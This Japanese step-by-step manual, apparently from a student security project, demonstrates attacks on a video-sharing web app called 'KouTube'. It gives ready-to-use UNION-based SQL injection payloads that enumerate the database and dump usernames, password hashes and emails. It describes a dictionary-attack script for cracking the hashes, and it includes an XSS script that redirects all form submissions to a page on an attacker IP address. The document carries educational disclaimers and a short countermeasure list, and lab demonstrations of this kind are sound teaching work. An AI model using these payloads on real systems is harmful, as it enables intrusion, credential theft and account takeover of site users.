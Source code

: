 # Webサーバー攻撃デモ手順書

## 概要
本手順書は、SQLインジェクションとXSS攻撃のデモンストレーション用です。
**注意: この手順書は教育目的のみに使用し、実際のシステムへの不正アクセスには使用しないでください。**

## 1. SQLインジェクション攻撃デモ

### 1.1 エラーからSQL構造を推測
1 = '1'などを入力すると以下のエラーメッセージが表示される。
```
予期せぬエラーが発生しました: 1064 (42000): You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '1'%' ORDER BY upload_at DESC' at line 1
```
・このエラーメッセージからわかること
<br>MySQLのエラー表示の特徴→ 構文エラーが起きた付近のSQLトークンをそのまま出力する

%直後にユーザーが入力していない ORDER BY upload_at DESC が現れる→ Webアプリ側がSQL末尾に自動的に ORDER BY を付与していると推測

% はワイルドカードで、通常は LIKE句で使われる→ SQLの末尾が LIKE ‘%入力%’ ORDER BY upload_at DESC であると判断

### 1.2 列数を試行で特定
' AND 1=2 UNION SELECT 1 --'と入力すると以下のエラーメッセージが表示される。
```
予期せぬエラーが発生しました: 1222 (21000): The used SELECT statements have a different number of columns
```
このエラーが出なくなるまで列数を１つずつ増やす
　→今回の場合７列であるため以下でエラーが出なくなる
```sql
' AND 1=2 UNION SELECT 1, 2, 3, 4, 5, 6, 7 --'
 ```

### 1.3 データベース名の取得
動画検索フィールドまたはコメント投稿欄に以下のペイロードを入力：

```sql
' AND 1=2 UNION SELECT 1, 2, DATABASE(), 4, 5, 6, 7 -- '
```

**期待される結果**: データベース名（KouTube）が表示される

### 1.4 テーブル名の取得
次に以下のペイロードを使用してテーブル名を取得：

```sql
' AND 1=2 UNION SELECT 1, 2, GROUP_CONCAT(table_name), 4, 5, 6, 7 FROM information_schema.tables WHERE table_schema = 'KouTube' -- '
```

**期待される結果**: データベース内のテーブル名一覧が表示される

### 1.5 usersテーブルのカラム構造取得
usersテーブルのカラム名を取得：

```sql
' AND 1=2 UNION SELECT 1, 2, GROUP_CONCAT(column_name), 4, 5, 6, 7 FROM information_schema.columns WHERE table_schema = 'KouTube' AND table_name = 'users' -- '
```

**期待される結果**: usersテーブルのカラム名（id, username, password, email等）が表示される

### 1.6 機密情報の取得
ユーザー情報（ユーザー名、パスワード、メールアドレス）を取得：

```sql
' AND 1=2 UNION SELECT 1, 2, CONCAT_WS('\n', username, password, email), 4, 5, 6, 7 FROM users -- '
```

**期待される結果**: 全ユーザーの機密情報が表示される

### 1.7 辞書攻撃によるパスワード解読
1.4で取得したハッシュ化されたパスワードに対して辞書攻撃を実行：

1. **攻撃準備**:
   - 辞書ファイル（a.txt）を用意
   - attacks_jisyo.pyスクリプトを使用

2. **攻撃実行**:
   ```bash
   python3 attacks_jisyo.py
   ```

3. **スクリプトの動作**:
   - 取得したsalt値（例：`$6$O/zgIwlwUdB90Lqq`）を使用
   - 辞書ファイルから候補パスワードを順次試行
   - ハッシュ値が一致したパスワードを特定

**期待される結果**: 平文パスワードが解読され、実際のユーザーアカウントへの不正アクセスが可能になる

## 2. XSS攻撃デモ

### 2.1 攻撃の準備
1. 攻撃者用のWebページ（you.html）を用意
2. 攻撃者のIPアドレスを確認（例：192.168.25.128）

### 2.2 XSSペイロードの投稿
動画のコメント欄に以下のJavaScriptコードを投稿：

```javascript
<script>document.onkeypress = function(e) {var f=document.forms;var i=f.length-1;do{f[i].action="http://192.168.25.128/project/projitu_1/static/you.html";f[i].onsubmit=null;}while(--i);}</script>
```

### 2.3 攻撃の実行
1. 第三者ユーザーが該当の動画ページにアクセス
2. 第三者ユーザーがコメントを投稿しようとする
3. キーを押すと、フォームのaction属性が攻撃者のサイトに変更される
4. コメント投稿時に攻撃者のサイト（you.html）にリダイレクトされる

## 3. デモ実行時の注意事項

### セキュリティ対策の確認
- 入力値のサニタイゼーション
- SQLクエリのプリペアードステートメント使用
- CSRFトークンの実装
- Content Security Policy (CSP)の設定

### デモ環境の要件
- ローカル環境またはテスト専用環境での実行
- 攻撃対象システムの所有者の許可
- ネットワーク分離された環境での実施

---
**免責事項**: この手順書は教育目的のみに作成されています。実際のシステムに対する不正アクセスや攻撃行為は法的に禁止されており、発見された場合は法的措置の対象となる可能性があります。